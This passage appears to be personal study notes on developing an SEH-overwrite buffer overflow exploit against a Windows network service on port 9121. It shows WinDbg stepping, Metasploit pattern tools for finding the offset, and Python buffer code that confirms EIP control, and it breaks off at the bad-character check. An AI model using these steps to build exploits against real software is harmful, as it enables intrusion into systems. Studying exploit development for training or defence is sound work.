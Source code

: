 And see the teb:
	!teb
We can see that we are pushing the exceptionList value onto the stack:

	
Continue stepping through:
	t
And chekcing teb:
	!teb
We see it's a mov instruction which is overwriting the current thread exception list with the current value of esp:

Step through and teb:
	t
	!teb
Confirm this with the debugger again, use the exception value from the teb from above instruction:
	dt _EXCEPTION_REGISTRATION_RECORD 01acf44c

Now just keep stepping through until we hit our call instruction:
	t
	t
	t
	t
	t
Now we can see that the call is where in assembly we get control of the EIP


NOW GAINING CODE EXECUTION:

So to find the offset of our location for EIP we will use the pattern create with msf
	msf-pattern_create -l 1000

Add this into the script as an inputBuffer:
	  inputBuffer = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8...Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"
	
Crash the app and check for the offset:
Run exchain and get the offset and find it:
	!exchain

	msf-pattern_offset -l 1000 -q 33654132

Now we know the offset, and we can verify with these changes to the python script:
	try:
	  server = sys.argv[1]
	  port = 9121
	  size = 1000
	
	  inputBuffer = b"\x41" * 128
	  inputBuffer+= b"\x42\x42\x42\x42"
	  inputBuffer+= b"\x43" * (size - len(inputBuffer))
	
And can confirm the EIP is filled with B's using exchain again:
	!exchain

Then we check for bad characters like so in the script:
try:
  server = sys.argv[1]
  port = 9121
  size = 1000

